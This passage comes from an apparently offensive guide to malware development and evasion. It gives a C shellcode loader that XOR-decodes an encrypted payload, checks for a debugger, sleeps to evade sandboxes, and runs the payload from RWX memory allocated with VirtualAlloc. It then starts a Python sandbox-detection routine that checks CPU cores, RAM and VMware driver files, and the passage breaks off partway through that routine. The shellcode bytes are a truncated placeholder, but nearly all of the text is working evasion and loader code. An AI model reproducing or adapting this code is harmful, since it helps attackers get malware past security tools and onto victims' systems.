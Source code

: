 ```bash
```

**Custom Payload Development**

```c
// Custom C payload with evasion
#include <windows.h>
#include <stdio.h>

// Encrypted shellcode
unsigned char enc_shellcode[] = {0x52, 0x31, 0x90, ...};

// XOR decoder
void decode(unsigned char *data, int len, unsigned char key) {
    for(int i = 0; i < len; i++) {
        data[i] ^= key;
    }
}

int main() {
    // Anti-debugging checks
    if(IsDebuggerPresent()) return 0;
    
    // Sleep to evade sandboxes
    Sleep(60000);
    
    // Decode shellcode
    decode(enc_shellcode, sizeof(enc_shellcode), 0x42);
    
    // Allocate memory
    void *exec = VirtualAlloc(0, sizeof(enc_shellcode), 
                              MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    
    // Copy and execute
    memcpy(exec, enc_shellcode, sizeof(enc_shellcode));
    ((void(*)())exec)();
    
    return 0;
}
```

### 3. Behavioral Evasion

#### Sandbox Detection

```python
# Check for sandbox indicators
def is_sandbox():
    checks = []
    
    # Check CPU cores (sandboxes often have few cores)
    if psutil.cpu_count() < 2:
        checks.append(True)
    
    # Check RAM (sandboxes often have limited RAM)
    if psutil.virtual_memory().total < 4 * 1024**3:  # 4GB
        checks.append(True)
    
    # Check for VM artifacts
    vm_files = [
        'C:\\windows\\System32\\Drivers\\Vmmouse.sys',
        'C:\\windows\\System32\\Drivers\\vmhgfs.sys'
    ]
    if any(os.path.exists(f) for f in vm_files):
        checks.append(True)
```